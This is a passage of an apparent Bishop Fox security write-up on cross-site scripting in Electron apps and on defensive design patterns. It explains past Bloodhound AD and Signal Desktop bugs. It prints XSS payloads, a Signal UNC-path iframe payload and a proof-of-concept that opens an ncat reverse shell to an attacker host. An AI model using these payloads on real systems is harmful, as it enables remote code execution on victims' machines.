



# Reasonably Secure Electron

Author: [Joe](https://twitter.com/LittleJoeTables) from [Bishop Fox](https://bishopfox.com)

### Table of Contents

- [Reasonably Secure Electron](#reasonably-secure-electron)
    - [Table of Contents](#table-of-contents)
  - [Preface](#preface)
  - [Part 1 - Out of the Browser Into the Fire](#part-1---out-of-the-browser-into-the-fire)
    - [Bloodhound AD](#bloodhound-ad)
      - [`HelpModal.jsx`](#helpmodaljsx)
      - [`HelpModal.jsx`](#helpmodaljsx-1)
      - [`HelpModal.jsx`](#helpmodaljsx-2)
      - [`HelpModal.jsx`](#helpmodaljsx-3)
      - [`nodeTooltip.html`](#nodetooltiphtml)
    - [Signal Desktop](#signal-desktop)
      - [`Quote.tsx`](#quotetsx)
      - [`Background.html`](#backgroundhtml)
    - [What's in a Name?](#whats-in-a-name)
    - [There's No Real Security in the Real World](#theres-no-real-security-in-the-real-world)
  - [Part 2 - Stacking the Deck](#part-2---stacking-the-deck)
    - [Security, the Hard Way](#security-the-hard-way)
    - [Playing in the Sandbox](#playing-in-the-sandbox)
      - [`main.ts`](#maints)
      - [`ipc.service.ts`](#ipcservicets)
      - [`preload.js`](#preloadjs)
      - [`ipc.ts`](#ipcts)
    - [File Read](#file-read)
      - [`ipc.ts`](#ipcts-1)
      - [`ipc.ts`](#ipcts-2)
      - [`ipc.ts`](#ipcts-3)
    - [File Write](#file-write)
    - [Navigation](#navigation)
    - [Origin Security](#origin-security)
      - [Vulnerable Protocol Handler](#vulnerable-protocol-handler)
      - [`app-protocol.ts`](#app-protocolts)
  - [When in Doubt, Castle](#when-in-doubt-castle)

## Preface

_"In the face of ambiguity, refuse the temptation to guess."_ -The Zen of Python

[Electron](https://electronjs.org/) is a cross-platform framework for developing desktop applications using web technologies like HTML, JavaScript, and CSS. Electron has become very popular in recent years for its ease of use, empowering developers to quickly create generally good-looking, responsive, cross-platform desktop applications. Applications from major tech companies like Microsoft Teams, VSCode, Slack, Atom, Spotify, and even secure messaging apps like Signal all use Electron or similar "native web" application frameworks. Electron did not start this trend, embedded webviews have been around for sometime. For example, iMessage is developed using embedded WebKit webviews, which have been [available on macOS and iOS](https://developer.apple.com/documentation/webkit/wkwebview) for years. Similarly, [JavaFX](https://docs.oracle.com/javase/8/javafx/embedded-browser-tutorial/overview.htm) supports embeddable WebKit and [Windows has IE objects](https://msdn.microsoft.com/en-us/windows/desktop/aa752084) that can be embedded in third-party applications. For one reason or another, Electron applications unlike the others often garner a fervent hatred, but truth be told, Electron remains a viable and pragmatic choice for those who value development time more than their user's RAM.

Electron is also often regarded as "inherently insecure." While this reputation is not entirely undeserved, application security is far more dependent on engineering practices than it is on the underlying framework. That's not to say the frameworks you choose have no bearing on security; it is possible to write secure PHP code, but [due to the language's often unintuitive design it's not easy](https://eev.ee/blog/2012/04/09/php-a-fractal-of-bad-design/) (and yes I'm aware a lot of this was fixed in PHP v7, but it's fun to beat a dead horse). Similarly, it's possible to write secure Electron applications, though we may need to keep an eye out for a variety of pitfalls as we'll explore.

In [Part 1](#part-1---out-of-the-browser-into-the-fire) we'll examine how various Electron exploitation techniques work, focusing primarily on cross-site scripting. In [Part 2](#part-2---reasonably-secure) we'll dive into how to design applications that can defend against these types of attacks, including a functional example  pattern that's _reasonably secure_. [Part 2](#part-2---reasonably-secure) is based on lessons learned from building the (yet unreleased) GUI for [Sliver](https://github.com/BishopFox/sliver), an implant framework for red teams I've building in my spare time.


## Part 1 - Out of the Browser Into the Fire

Since Electron applications are built on web application technologies, unsurprisingly they're often vulnerable to the same flaws found in your everyday web application. In the past, web application flaws have generally been confined to the browser's sandbox, but no such limitations exist (by default) in Electron. This change has led to a significant increase in the impact that a cross-site scripting (XSS) bug can have, since the attacker now gains access to the NodeJS APIs. Back in 2016, [Matt Bryant](https://twitter.com/IAmMandatory), [Shubs Shah](https://twitter.com/infosec_au), and I released some research on finding and exploiting these vulnerabilities in Electron and other native web frameworks. We demonstrated remote code execution vulnerabilities in Textual IRC, Azure Storage Explorer, and multiple markdown editors, as well as a flaw that allowed [remote disclosure of all iMessage data](https://know.bishopfox.com/blog/2016/04/if-you-cant-break-crypto-break-the-client-recovery-of-plaintext-imessage-data) on macOS, and created a cross-platform self-propagating worm in RocketChat in our presentation at [Kiwicon](https://www.kiwicon.org/).

But what is the root cause of XSS and why is it so hard to prevent? There's a common misconception that the proper fix for a cross-site scripting is sanitizing user input. The notion that sanitizing user input can concretely fix an XSS issue is untrue, the only proper fix for XSS is contextual output encoding. That said, it's still a good idea to sanitize user input so do that too (and be sure to sanitize with a whitelist, not a blacklist) --but you need to ensure it's done _in addition to proper output encoding_. A good rule of thumb is: "sanitize input, encode output," but what does contextual encoding entail? Let's explore the details of a couple recent exploits to better understand how XSS manifests and how to prevent it.

### Bloodhound AD

We'll first look at a couple vulnerabilities I found in the Bloodhound AD tool, one of which was independently discovered by [Fab](https://github.com/BloodHoundAD/BloodHound/issues/267).

Bloodhound is an incredibly powerful tool for analyzing the structure of Windows Active Directory deployments, and finding ways to exploit the various privilege relationships therein. The attacker (or defender) runs an ingestor script that dumps data from Active Directory into JSON. The JSON is then parsed into a Neo4j database, and an Electron GUI can be used to query and view the results in a nice graph view. A quick look at the code reveals the application is primarily based on [React](https://reactjs.org/). React, generally speaking and for reasons we'll discuss later, is very good at preventing cross-site scripting attacks, but edge cases do exist. Such an edge case is the use of the `dangerouslySetInnerHTML()` function. This function is similar in functionality to a DOM element's `.innerHTML` (also dangerous); the function takes in a string and parses it as HTML.

Using candidate point analysis, a quick search of the unpatched [Bloodhound AD](https://github.com/BloodHoundAD/BloodHound/tree/a7ea5363870d925bc31d3a441a361f38b0aadd0b) codebase and we find four instances of this function being used, excerpt below:

#### [`HelpModal.jsx`](https://github.com/BloodHoundAD/BloodHound/blob/a7ea5363870d925bc31d3a441a361f38b0aadd0b/src/components/Modals/HelpModal.jsx#L1988)
```jsx
<Modal.Body>
  <Tabs
    defaultActiveKey={1}
    id='help-tab-container'
    justified
  >
  <Tab
    eventKey={1}
    title='Info'
    dangerouslySetInnerHTML={this.state.infoTabContent}
  />
```

In the excerpt above we can see an attribute of this `this.state` object is passed to our candidate point `dangerouslySetInnerHTML`. From this sink, we'll trace backwards to determine if the issue is exploitable, and looking at the definition of `this.state` we can see that it's a basic JavaScript object initialized with empty strings, including the `.infoTabContent` attribute, which is passed as a parameter to our sink:

#### [`HelpModal.jsx`](https://github.com/BloodHoundAD/BloodHound/blob/a7ea5363870d925bc31d3a441a361f38b0aadd0b/src/components/Modals/HelpModal.jsx#L5)
```javascript
export default class HelpModal extends Component {
  constructor() {
    super();
    this.state = {
      open: false,
      infoTabContent: '',
      abuseTabContent: '',
      opsecTabContent: '',
      referencesTabContent: '',
    };
```

So next we must determine how `.infoTabContent` is set, jumping to the next usage of `infoTabContent` we find:

#### [`HelpModal.jsx`](https://github.com/BloodHoundAD/BloodHound/blob/a7ea5363870d925bc31d3a441a361f38b0aadd0b/src/components/Modals/HelpModal.jsx#L239)
```javascript
  this.setState({ infoTabContent: { __html: formatted } });
```

Here we see the empty string `infoTabContent` is replaced with a JavaScript object with the key `__html`, this aligns with [React's documentation](https://reactjs.org/docs/dom-elements.html#dangerouslysetinnerhtml) of how `dangerouslySetInnerHTML` works and is a good indication that we've correctly traced the code and this value is indeed passed to our sink. The `__html` key's value is the `formatted` variable. So from here we must determine what the variable is, and what it contains. Scrolling up a bit we can see that `formatted` is just a string, which is built using string interpolation with variables `${sourceName}` and `${targetName}`:

#### [`HelpModal.jsx`](https://github.com/BloodHoundAD/BloodHound/blob/a7ea5363870d925bc31d3a441a361f38b0aadd0b/src/components/Modals/HelpModal.jsx#L228)
```javascript
} else if (edge.label === 'SQLAdmin') {
  formatted = `The user ${sourceName} is a SQL admin on the computer ${targetName}.

  There is at least one MSSQL instance running on ${targetName} where the user ${sourceName} is the account configured to run the SQL Server instance. The typical configuration for MSSQL ... removed
```

Based on my usage and understanding of the tool, and as the help dialog helpfully points out, these values are based on data collected by the ingestor script from Active Directory (i.e., from an 'untrusted' source), and therefore "attacker"-controlled (note the ironic inversion of 'attacker' in this context). This confirms the exploitability of our candidate point; attacker-controlled content is indeed passed to `dangerouslySetInnerHTML`. All an attacker needs to do is plant malicious values (like a GPO in Fab's demonstration), with the following name:

```html
aaaaaa<SCRIPT SRC="http://example.com/poc.js">
```

Where `poc.js` contains:

```javascript
const { spawn } = require('child_process');
spawn('ncat', ['-e', '/bin/bash', '<attacker host>', '<some port>']);
```

Since the GPO name is not properly encoded, it will be rendered by the DOM as HTML, and Electron will parse the `<SCRIPT` tag and dutifully retrieve and execute the context of `poc.js`. As discussed before, since the NodeJS APIs are enabled this attacker-controlled JavaScript can simply spawn a bash child process and execute arbitrary native code on the machine.

A reasonable scenario here would be blue teams hiding malicious values in their AD deployment waiting for the red team to run Bloodhound, and subsequently exploit the red team operator's machine. Though blue teams often also run this tool, so were a red team operator in a position to influence the data collected by Bloodhound, but otherwise had limited access to AD the exploit could go in the traditional direction too.

The most comprehensive fix for this vulnerability would be to re-write the functionality such that `dangerouslySetInnerHTML` is not needed. However, from a practical perspective, a lot of code would need to be refactored. A short term and effective fix is to HTML encode the attacker-controlled variables. By HTML encoding these values, we can ensure these strings are never interpreted by the browser as actual HTML, and can support arbitrary characters. The prior payload: `aaaaaa<SCRIPT SRC="http://example.com/poc.js">` will be encoded as `aaaaaa&lt;SCRIPT SRC="http://example.com/poc.js"&gt;` and will be displayed as `aaaaaa<SCRIPT SRC="http://example.com/poc.js">` but not interpreted as HTML. So is preventing cross-site scripting a simple matter of HTML encoding attacker-controlled values? Unfortunately no.

In another area of the application the [Mustache](https://mustache.github.io/) template library is used to render tool tips. The Mustache library HTML encodes by default, another potential fix for the prior vulnerability would be to switch from string interpolation to Mustache templates. However, as we discussed the proper fix is _contextual encoding_, not blanket HTML encoding. HTML encoding will prevent XSS in an HTML context, but when used outside of an HTML context it will fail, or only coincidentally prevent XSS.

Looking at the usage of Mustache in Bloodhound we see that a few values are passed to the tooltips, notably `label` is attacker controlled:

#### [`nodeTooltip.html`](https://github.com/BloodHoundAD/BloodHound/blob/a7ea5363870d925bc31d3a441a361f38b0aadd0b/src/components/nodeTooltip.html)
```html
<div class="header">
  {{label}}
</div>
<ul class="tooltip-ul">
  {{#type_ou}}
  <li onclick="emitter.emit('setStart', '{{type}}:{{guid}}')">
    <i class="fa fa-map-marker-alt"></i> Set as Starting Node
  </li>
  <li onclick="emitter.emit('setEnd', '{{type}}:{{guid}}')">
    <i class="fa fa-bullseye"> </i> Set as Ending Node
  </li>
  {{/type_ou}}
  {{^type_ou}}
  <li onclick="emitter.emit('setStart', '{{type}}:{{label}}')">
    <i class="fa fa-map-marker-alt"></i> Set as Starting Node
  </li>
```

In the first usage, `{{label}}` is not vulnerable, since this is an HTML context i.e. the string we are rendering is within an HTML tag:

```html
<div class="header">
    {{label}}
</div>
```

The second instance of `{{label}}` though is used as part of the HTML tag attribute `onclick=`:

```html
<li onclick="emitter.emit('setStart', '{{type}}:{{label}}')">
  <i class="fa fa-map-marker-alt"></i> Set as Starting Node
</li>
```

Note that `{{label}}` is rendered into the following JavaScript code snippet:

```javascript
emitter.emit('setStart', '{{type}}:{{label}}')
```

Now, it's important to understand that Mustache will HTML encode the `label` variable, and as you may have guessed our goal will be to insert an `'` character to terminate the JavaScript string parameter passed to `event.emitter`. For example, if we pass a `label` value of `a'); alert(1);//'` (Note: we need to ensure our injection results in syntactically correct JavaScript), we'd ideally generate something along the lines of:

```javascript
emitter.emit('setStart', 'someType:a'); alert(1);//')
```

However, the studious reader will know that Mustache actually HTML encodes both `'` and `"`:

```text
Welcome to Node.js v12.9.1.
Type ".help" for more information.
> const mustache = require('mustache');
undefined
> mustache.render("{{a}}", {a: "'"});
'&#39;'
> mustache.render("{{b}}", {b: '"'});
'&quot;'
```

So when rendered by Mustache we will end up with something along the lines of:

```html
<li onclick="emitter.emit('setStart', 'someType:a&#39;); alert(1);&#x2F;&#x2F;&#39;')">
```

Given this information, it may stand to reason that the JavaScript code we'll end up with would be:

```javascript
emitter.emit('setStart', 'someType:a&#39;); alert(1);&#x2F;&#x2F;&#39;')
```

So is this exploitable? Yeap, it actually is! Due to the [order in which a browser decodes and interprets values](https://html.spec.whatwg.org/multipage/parsing.html). Attributes are always decoded before they are interpreted as values, which means the browser will decode `&#39;` back into `'` for us prior to parsing the attribute as JavaScript. By the time the JavaScript interpreter parses the code, it will be valid and we can inject attacker-controlled code. This is what we mean when we talk about _contextual entity encoding_. You must account for all of the context(s) —oftentimes multiple nested contexts— in which a value will be interpreted. Getting not just the encoding correct, but often the ordering the encodings correct, is a non-trivial problem. But fret not! We can usually avoid this problem altogether, but more on that later.

This also touches on why sanitizing user input can be a problematic fix for injection issues. It's rare that at the time of accepting user input we know exactly what context(s) the values will be used in later. For example, if we sanitized `label` for XSS by removing HTML control characters such as `<` and `>`, we'd still be left with an exploitable XSS vulnerability. If we go further and remove `'`, `"`, `}`, and `)`, are we certain there's not a third or even forth context where `label` is used that may be vulnerable? This leads us to why you should always use whitelist sanitization, not a blacklist. Whitelist sanitization routines will better account for unintended contexts and other side effects. Regardless, neither is ideal if these characters are valid in a GPO name and we reject GPO names that contain these characters or remove the characters from the name, we'll have a functionality issue in that we cannot properly display the name as intended. This is why proper contextual encoding must be used to meet both our functional and security requirements.

### Signal Desktop

In 2018 [Iván Ariel Barrera Oro](https://twitter.com/HacKanCuBa), [Alfredo Ortega](https://twitter.com/ortegaalfredo), [Juliano Rizzo](https://twitter.com/julianor), and [Matt Bryant](https://twitter.com/IAmMandatory) found [multiple remote code execution flaws](https://thehackerblog.com/i-too-like-to-live-dangerously-accidentally-finding-rce-in-signal-desktop-via-html-injection-in-quoted-replies/) in the [Signal](https://signal.org/) desktop application, a secure end-to-end encrypted messaging application.

Both variations of the exploit worked in a similar fashion; message content and quoted responses (shown below) were rendered using the `dangerouslySetInnerHTML()` function:

#### [`Quote.tsx`](https://github.com/signalapp/Signal-Desktop/blob/721935b0c82a52d919ab61dff7ddc63d6d6ebe92/ts/components/conversation/Quote.tsx#L114)
```tsx
export class Quote extends React.Component<Props, {}> {

  //...removed for brevity

  public renderText() {
    const { i18n, text, attachments } = this.props;

    if (text) {
      return (
        <div className="text" dangerouslySetInnerHTML={{ __html: text }} />
      );
    }
  }
```

This meant that message content and quoted messages that contained HTML tags would be rendered by Electron as HTML. The one complication with exploiting this flaw was that Electron had implemented a fairly strong [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) (CSP):

#### [`Background.html`](https://github.com/signalapp/Signal-Desktop/blob/721935b0c82a52d919ab61dff7ddc63d6d6ebe92/background.html#L9)
```html
<meta http-equiv="Content-Security-Policy"
  content="default-src 'none';
          connect-src 'self' https: wss:;
          script-src 'self';
          style-src 'self' 'unsafe-inline';
          img-src 'self' blob: data:;
          font-src 'self';
          media-src 'self' blob:;
          child-src 'self';
          object-src 'none'"
>
```

In this case, what _appears_ to be the primary hurdle the attacker must get over is the `script-src 'self'` line. This CSP policy blocks JavaScript (including inline JavaScript) unless it is loaded from the application's current origin. The browser's same origin policy (SOP) defines origins using protocol, host, and port. For instance, with an origin of `http://example.com` would have a protocol of `http:` host of `example.com` and an implicit port 80, which would be considered a distinct origin from `https://example.com` since the protocol nor the port (now an implicit 443) do not match. So if an application loaded from the `https://example.com` origin defines a CSP with a script directive of `script-src 'self'`, only JavaScript loaded from `https://example.com` would be allowed to execute, and anything else (including for example `http://example.com/foobar.js`) would be blocked.

So what origin does an Electron application run in, since there's no HTTP server? Well since the application is loaded from the user's file system the origin of an Electron application will default to a file URI, as shown below:



This means that in the context of Signal Desktop's CSP that `'self'` equates to `file://`, and if you've read the details about our [2016 iMessage exploit](https://know.bishopfox.com/blog/2016/04/if-you-cant-break-crypto-break-the-client-recovery-of-plaintext-imessage-data) you'll know that `file://` origins have all sorts of special permissions, like using `XMLHttpRequest` to read files.

[Iván Ariel Barrera Oro](https://twitter.com/HacKanCuBa), [Alfredo Ortega](https://twitter.com/ortegaalfredo), [Juliano Rizzo](https://twitter.com/julianor) very cleverly used this property to bypass Signal's CSP and load remote content. They didn't actually bypass `script-src 'self'`, but instead leveraged `child-src 'self'`, which controls where `<iframe>` HTML tags can load content from. This directive is similarly set to `'self'`, which means that `<iframe>` tags must load content from the `file://` origin. Notably, child frames do _not_ inherit the parent frame's CSP policy even if they're loaded from the same origin as the parent, so if an attacker is able to load content into a child frame it is completely unconstrained by the CSP and can execute arbitrary JavaScript as well as access all of the NodeJS APIs. (This is Electron after all.) The next property abused to load remote content is the use of [UNC paths](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsc/149a3039-98ce-491a-9268-2f5ddef08192) on the Windows operating system, which as you may have guessed are considered to be part of the `file://` origin. Therefore, the final payload is:

```html
<iframe src=\\DESKTOP-XXXXX\Temp\rce.html>
```

This payload loads an HTML file into an iframe from a UNC path, which does not violate the application's CSP since it's from the `file://` origin. Once loaded the child frame can execute native code in the context of the application since there are no more `script-src` restrictions.

This exploit is an excellent example of the limitations of CSPs. A CSP _cannot_ prevent XSS; it can however complicate/limit the exploitation process, or make an otherwise exploitable bug unexploitable. CSP is a seatbelt; depending upon the severity of a crash it can and very well may save you, but it's not perfect. And it's not the 80s anymore, so wear your damn seatbelt.

### What's in a Name?

A function by any other name could be so vulnerable. The flaws in both Signal and Bloodhound AD stemmed from the use of [React](https://reactjs.org/docs/dom-elements.html#dangerouslysetinnerhtml)'s `dangerouslySetInnerHTML` function, which despite its name is seemingly used with reckless abandon. Clearly the React developers didn't go far enough calling the function "dangerous" and should have chosen the equally appropriate name `iDoNotCareAboutSecurityPlzHackMe()`.

All of the aforementioned bugs are at their core cross-site scripting (XSS) vulnerabilities, which is a terrible name. Cross-site scripting is a actually a JavaScript _injection vulnerability_. All injection vulnerabilities occur when the "computer" cannot properly differentiate between what is data and what is an instruction, and subsequently allows an attacker to trick the "computer" into misinterpreting attacker-controlled data as instructions. This can be said about XSS, SQL injection, command injection, etc. The core mechanics of all these vulnerabilities are actually the same, save for what the "computer" is.

The "computer" in a SQL injection is the SQL interpreter, and in the context of XSS it's the Document Object Model (DOM). If you've ever wondered the logical reason why prepared statements are not vulnerable to SQL injection, it is principally because in prepared statements there is always a separation of the query logic (instructions) from the data (parameters). Thus there is no ambiguity between instruction and data for an attacker to abuse:

```php
$stmt = $conn->prepare("INSERT INTO Users (firstname, lastname, email) VALUES (?, ?, ?)");
$stmt->bind_param("sss", $firstname, $lastname, $email);
```

In the PHP prepared statement above, the logic (i.e., the query) is first passed to the `prepare()` function, then the data (i.e., parameters) is subsequently passed in a separate `bind_param()` function call. This prevents any possibility of the database misinterpreting user-controlled data (e.g. `$firstname`) as SQL instructions. However, an application that exclusively makes use of prepared statements is not automatically "secure," though it may be free of this one particular vulnerability, care still must be taken when designing an application and a defense-in-depth approach is still warranted — SQL injection is not the only vulnerability that can result in an attacker stealing data from the database. This would be like saying an electrical car cannot breakdown since it is unlikely to ever suffer from a mechanical failure; it's a half truth that does not take into account the bigger picture.

So is CSP the DOM analog to SQL prepared statements? Not really, CSP allows the programmer to add metadata to an HTTP response that tells the browser how to distinguish _where_ instructions (i.e., `script-src`) can be loaded from. CSP is very much like [Data Execution Prevention](https://en.wikipedia.org/wiki/Executable_space_protection) (DEP), buffer overflows are injection vulnerabilities where data on the stack is mistaken for instructions it only makes distinctions on the _where_. Similar to DEP, CSP can bypassed by loading instructions from areas (i.e., origins) that are already "executable" — if we can find an initial injection point. Just as DEP does not make `strcpy()` safe to use in any context, CSP does not make things like `dangerouslySetInnerHTML()` or `.innerHTML` safe. CSP and DEP only kick in _after_ the injection has occurred; they're just seatbelts.

### There's No Real Security in the Real World

As we've seen in [Part 1](#part-1---out-of-the-browser-into-the-fire), there's no security silver bullet. HTML encoding can fail, input sanitization can fail, content security policy can fail, prepared statements can fail, sandboxes fail, DEP ASLR SafeSEH and Control Flow Guard can all fail; no one control can prevent an attack, but that doesn't mean any of these technologies aren't worth using. Just as an aeronautical engineer must design a plane to survive rare but inevitable mechanical failures, so too we must engineer our applications to be robust against security failures. We must assume everything is hackable and it’s simply a matter of time and/or resources before someone finds a flaw, and in practice, this is always the case.

Our only recourse is to is to add to the time and resources necessary to complete an attack. To that end, we have one major advantage: we get to stack the deck.

## Part 2 - Stacking the Deck

In this repository you'll find my functional example of a "reasonably secure" Electron application pattern. Based on my personal preference, the example application uses Angular and TypeScript. It's based on the design I've been using for the unreleased [Sliver](https://github.com/BishopFox/sliver) GUI. However, everything in this post is also equally applicable to React if that is your preference. I highly recommend selecting one of these two frameworks for reasons discussed below.

### Security, the Hard Way

So, what is the analog for a SQL prepared statement in the DOM? Is there a way to dynamically build a DOM using only safe methods? Yes! But, let's build upon a naive first approach. The least safe way to dynamically construct a DOM is with JavaScript string interpolation or string concatenation:

```javascript
document.body.innerHTML = `<strong>${title}</strong>` + `<a href="${userInput}">click me</a>`;
```

As we've seen before, `.innerHTML` (just like `dangerouslySetInnerHTML()`) offers no protections what-so-ever. There is no distinction between data and instruction, and the browser will render anything that is handed to it. This method of dynamically adding content to a page should be avoided at all times. A slightly better approach, as we've also seen is to use a template library like Mustache that HTML encodes by default:

```javascript
document.body.innerHTML = mustache.render('<strong>{{title}}</strong><a href="{{userInput}}">click me</a>', {title: 'foo', userInput: 'bar'});
```

Just as before, this approach is better, but subtle mistakes still leave the application vulnerable to XSS (the example above is exploitable). Part of the reason for this is that Mustache only parses the `{{`, `}}`, and other directives it knows about. While `{{foo}}` values get encoded, they're blindly HTML encoded, and string substitution is used to construct the final string. Mustache doesn't even care if the source string is valid HTML:

```text
> mustache.render("<asdf></afwioj>{{a}}&foobar<a><b><c>", {a: 'foobar'});
'<asdf></afwioj>foobar&foobar<a><b><c>'
```

Mustache still works via string manipulation, and therefore lacks any understanding of the content it's manipulating. That means it's still up to the programmer to only use `{{foo}}` values in safe locations and contextually switch encodings or nest encodings when needed. We're much safer than the first example of `.innerHTML`, but there's still a lot of onus on the user of the library to get it right. The `.innerHTML` API is insecure by default, and I'd argue almost never safe to use.

An even better approach is to forego using `.innerHTML` and string manipulation altogether, and instead use `document.createElement`:

```javascript
let btn = document.createElement("button");
btn.setAttribute("foo", "'<bar>");
btn.innerText = "Hello world";
document.body.appendChild(btn);
```

This approach is still not perfect, for example assigning an `href` attribute to user-controlled content will still result in XSS (e.g. `javascript:alert(1)`), but due to the lack of string manipulation when constructing the DOM hierarchy, we've eliminated the vast majority of injection points. We also don't have to worry about nested encodings as the browser's `.setAttribute()` will handle that for us. However, it's paramount that we do not use string interpolation/concatenation _anywhere_. For example, the following use of string interpolation will still be vulnerable:

```javascript
let btn = document.createElement("button");
btn.setAttribute("onclick", `foobar(${userInput})`);
```

The correct approach here would be to dynamically read the value from an inert tag attribute:

```javascript
let btn = document.createElement("button");
btn.setAttribute("data", userInput)
btn.setAttribute("onclick", `foobar(event.srcElement.attributes['data'].value)`);
```

This approach is obviously far more verbose code-wise, which is why it's so common to just use string manipulation when building the DOM. There are also future standards, such as "Trusted Types" proposed by Google to help make a better distinction between data and instructions when performing native browser DOM updates:

> [Trusted Types](https://developers.google.com/web/updates/2019/02/trusted-types) allow you to lock down the dangerous injection sinks - they stop being insecure by default, _and cannot be called with strings_."

But this has yet to be standardized, so it's more of a footnote on what's to come. In the meantime, is there any way to get the safety of this approach with the ease of use of the templated approach?  Yes, the "Virtual DOM" --or "Incremental DOM" or whatever hip new word people are using. Basically [React's JSX](https://reactjs.org/docs/jsx-in-depth.html) and [Angular's](https://angular.io/guide/aot-compiler) templates. As Kara Erikson explains in her recent talk on the [Angular compiler](https://youtu.be/bEYhD5zHPvo?t=18624), Angular templates are _lexically parsed_ and converted into function calls to `document.createElement` and related APIs:



This leaves no ambiguity for an attacker to construct an injection vulnerability, and is one of the main reasons it's so hard to find XSS vulnerabilities in Angular (2+) and React-based applications. Since the templates are lexically parsed, the framework knows the exact context in which a given value will be used, and can implement the correct encoding and/or sanitization routines: `property('name', ctx.name)` in the example above. Well, at least the applications that don't use React's `dangerouslySetInnerHTML()` and Angular's counterpart, [`bypassSecurityTrustHtml()`](https://angular.io/api/platform-browser/DomSanitizer#bypassSecurityTrustHtml).

This is our first and most important design choice when it comes to building our reasonably secure Electron application. We will __never__ directly interact with the DOM, and instead defer to Angular to handle that interaction for us. Additionally, we will __never__ call `bypassSecurityTrustHtml()` or any related function. By avoiding any direct interaction with the DOM, we make an attacker's job incredibly hard.

### Playing in the Sandbox

Next, we must assume relying upon Angular/React will eventually fail, which is a pretty good bet. While our own code may adhere to the strict guidelines set forth, we have no assurance that the infinite depths of our `node_modules/` directory will contain only safe code.

Since a cross-site scripting vulnerability will result in the attacker's code executing in the same context as our own code, (i.e., in the context of the DOM), we must impose limitations our own code. Electron can actually facilitate this. By default, Electron applications have two or more processes: the 'main process', and one or more 'renderer' processes. The main process is a simple Node process like any other, by using the Electron APIs, this process creates the `BrowserWindow`s (the renderer processes). The renderer processes communicate with the main process using [inter-process communication](https://electronjs.org/docs/api/ipc-main) (IPC), which is also provided by Electron:

```text
[ Main Process (Node) ] <--IPC--> [ Renderer Process (DOM) ]
```

The first step will be to entirely disable access to the Node APIs from within the renderer process, and instead selectively expose functionality to the renderer. In the event our application is vulnerable to XSS, the attacker will no longer be able to immediately execute native code. You may think this defeats the reasons we'd using Electron, but stick with me.

The [Electron documentation](https://electronjs.org/docs/api/browser-window#new-browserwindowoptions) for `BrowserWindow` isn't super detailed on what all of these flags do, but let's go through them one by one. So far as I can tell, these are the flags you want to set to properly restrict your webviews from executing native code. Some of these are the defaults, but I've explicitly set them out of an abundance of caution against future changes to the default settings:

#### [`main.ts`](main.ts#L33)
```typescript
const mainWindow = new BrowserWindow({
  webPreferences: {
    sandbox: true,
    webSecurity: true,
    contextIsolation: true,
    webviewTag: false,
    enableRemoteModule: false,
    allowRunningInsecureContent: false,
    nodeIntegration: false,
    nodeIntegrationInWorker: false,
    nodeIntegrationInSubFrames: false,
    nativeWindowOpen: false,
    safeDialogs: true,
    preload: path.join(__dirname, 'preload.js'),
  },
});
```

These are largely taken directly from the Electron documentation, but I've editorialized some of it based on my understanding. These are all Boolean flags:

* `sandbox` - Whether to enable the sandbox renderer associated with the window, making it compatible with the Chromium OS-level sandbox and disabling the Node.js engine. This is not the same as the `nodeIntegration` option and the APIs available to the preload script are more limited.
* `webSecurity` - Whether to enable the same origin policy (SOP), setting this to `false` will kill the kitten nearest to you.
* `contextIsolation` - Whether to run Electron APIs and the specified preload script in a separate JavaScript context. This is disabled by default, but you should always set this to `true` to protect against prototype tampering.
